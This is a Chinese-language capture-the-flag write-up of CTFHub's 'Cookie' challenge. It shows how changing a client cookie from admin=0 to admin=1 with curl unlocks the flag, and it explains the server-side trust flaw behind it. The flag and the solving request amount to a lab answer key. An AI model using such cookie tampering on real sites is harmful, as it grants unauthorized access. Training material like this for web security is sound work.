

# WP：Cookie

> **CTFHub 路径**：技能树 → Web → Web 前置技能 → HTTP 协议 → Cookie
> **任务**：按题目提示修改 Cookie，拿到 flag。
> **提示**：在 DevTools 的 Application/Storage → Cookies 中查看 Cookie，或在 Burp 的请求头中查看。修改后重放请求，观察页面变化。
> **截图要求**：能看到修改后的 Cookie 请求头，以及服务器返回的 flag 或成功页面。

---

## 题目信息

| 项目 | 内容 |
| --- | --- |
| 环境地址 | http://challenge-8e0c3d976b44e02b.sandbox.ctfhub.com:10800 |
| Flag | ctfhub{02ba3d92b05328086dd020a4} |

## 解题过程

打开靶场，页面显示 "hello guest. only admin can get flag."。我用 `curl -si` 看响应头，发现服务器下发了 `Set-Cookie: admin=0`——身份标识就存在客户端 Cookie 里，而且值只有 0/1 两态。既然服务器相信客户端上报的身份，那就把 `admin` 的值从 0 改成 1 再发回去：`curl -si -b "admin=1" http://...`。响应体立刻从 "hello guest" 变成了 flag。在浏览器 DevTools 的 Application → Cookies 里把值改成 1 后刷新也能看到同样效果，提交 flag 正确。

## 关键请求/响应

```http
GET / HTTP/1.1
Host: challenge-8e0c3d976b44e02b.sandbox.ctfhub.com:10800
Cookie: admin=1
User-Agent: curl/8.x

HTTP/1.1 200 OK
Content-Type: text/html; charset=UTF-8

ctfhub{02ba3d92b05328086dd020a4}
```

首次访问的响应头（未修改前）：

```http
HTTP/1.1 200 OK
Set-Cookie: admin=0

hello guest. only admin can get flag.
```

## 原理与复盘

Cookie 位于 HTTP 请求头里，是客户端每次请求时自动带回给服务器的状态数据，服务器常靠它识别"你是谁"。本题的漏洞在于服务器把权限判断完全建立在客户端可随意修改的 Cookie 值上（admin=1 就是管理员），没有任何服务端校验。正确的做法是 Cookie 里只放一个不透明会话 ID，权限状态存在服务端的 Session 里。

---

## 截图



> 可以在这份 WP 中另加过程截图；检查时只看指定图片，额外图片不检查。
